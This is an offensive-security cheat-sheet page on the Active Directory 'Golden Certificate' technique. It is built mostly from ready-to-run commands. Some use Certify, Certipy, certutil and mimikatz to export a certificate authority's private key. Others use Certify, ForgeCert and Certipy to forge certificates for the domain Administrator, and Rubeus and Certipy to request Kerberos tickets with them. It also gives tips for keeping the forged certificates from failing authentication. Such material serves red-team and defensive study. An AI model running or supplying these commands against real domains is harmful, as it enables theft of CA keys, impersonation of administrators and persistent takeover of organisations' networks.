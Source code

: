 # Active Directory - Golden Certificate

A Golden Certificate is a maliciously crafted certificate that an attacker generates using the CA’s private key.

## Obtain CA certificate

Export the CA certificate including the private key:

* [GhostPack/Certify](https://github.com/GhostPack/Certify)

    ```ps1
    Certify.exe manage-self --dump-certs
    ```

* [ly4k/Certipy](https://github.com/ly4k/Certipy)

    ```ps1
    certipy ca -u 'administrator@corp.local' -p 'Passw0rd!' -ns '10.10.10.10' -target 'CA.CORP.LOCAL' -config 'CA.CORP.LOCAL\CORP-CA' -backup
    ```

* [windows-gui/certsrv.msc](https://learn.microsoft.com/en-us/system-center/scom/obtain-certificate-windows-server-and-operations-manager)
    * Open `certsrv.msc`
    * Right click the CA -> `All Tasks` -> `Back up CA...`
    * Follow the wizard but make sure to check `Private key and CA certificate`

* [windows-gui/certlm.msc](https://learn.microsoft.com/en-us/windows-server/identity/ad-cs/export-certificate-private-key)
    * Open `certlm.msc`
    * Go to `Personal` -> `Certificates`
    * Right click the CA signing certificate -> `All Tasks` -> `Export`
    * Follow the wizard but make sure to choose `Yes, export the private key`

* [windows-commands/certutil](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/certutil)

    ```ps1
    certutil -backupKey -f -p SuperSecurePassw0rd! C:\Windows\Tasks\CaBackupFolder
    ```

* [gentilkiwi/mimikatz](https://github.com/gentilkiwi/mimikatz)

    ```ps1
    mimikatz.exe "crypto::capi" "crypto::cng" "crypto::certificates /export"
    ```

## Forge Golden Certificates

Forge a certificate of a target principal:

* [GhostPack/Certify](https://github.com/GhostPack/Certify)

    ```ps1
    Certify.exe forge --ca-cert <pfx-path/base64-pfx> --upn Administrator --sid S-1-5-21-976219687-1556195986-4104514715-500
    ```

* [GhostPack/ForgeCert](https://github.com/GhostPack/ForgeCert)

    ```ps1
    ForgeCert.exe --CaCertPath "ca.pfx" --CaCertPassword "Password" --Subject "CN=User" --SubjectAltName "administrator@domain.local" --NewCertPath "administrator.pfx" --NewCertPassword "Password"
    ```

* [ly4k/Certipy](https://github.com/ly4k/Certipy)

    ```ps1
    certipy forge -ca-pfx 'CORP-CA.pfx' -upn 'administrator@corp.local' -sid 'S-1-5-21-...-500' -crl 'ldap:///'

    certipy forge -template 'attacker.pfx' -ca-pfx 'CORP-CA.pfx' -upn 'administrator@corp.local' -sid 'S-1-5-21-...-500'
    ```

:warning: Useful parameters when generating a golden certificate.

* `-crl`: If the `-crl` option is omitted when forging, authentication might fail. While the KDC doesn't typically perform an active CRL lookup during initial TGT issuance for performance reasons, it does often check for the presence of a CDP extension in the certificate. Its absence can lead to a `KDC_ERROR_CLIENT_NOT_TRUSTED` error.
* `-template 'attacker.pfx'`: Certipy will copy extensions (like Key Usage, basic constraints, AIA, etc.) from attacker.pfx into the new forged certificate, while still setting the **subject**, **UPN**, and *SID* as specified.
* `-subject "CN=xyz-CA-1, DC=xyz, DC=htb"`: set the **Distinguished Name** for the certificate

## Request a TGT

* [GhostPack/Rubeus](https://github.com/GhostPack/Rubeus)

    ```ps1
    Rubeus.exe asktgt /user:Administrator /domain:dumpster.fire /certificate:<pfx-path/base64-pfx>
    ```

* [ly4k/Certipy](https://github.com/ly4k/Certipy)

    ```ps1
    certipy auth -pfx 'administrator_forged.pfx' -dc-ip '10.10.10.10'
    ```

## References

* [BloodHound - GoldenCert Edge - SpecterOps - April 20, 2025](https://bloodhound.specterops.io/resources/edges/golden-cert)
* [Certificate authority - The Hacker Recipes - July 16,2025](https://www.thehacker.recipes/ad/persistence/adcs/certificate-authority)
* [Domain Persistence Techniques - Valdemar Carøe - August 6, 2025](https://github.com/GhostPack/Certify/wiki/3-‐-Domain-Persistence-Techniques)
* [Post‐Exploitation - Oliver Lyak - May 15, 2025](https://github.com/ly4k/Certipy/wiki/07-‐-Post‐Exploitation)
* [Steal or Forge Authentication Certificates - MITRE ATT&CK - April 15, 2025](https://attack.mitre.org/techniques/T1649/)
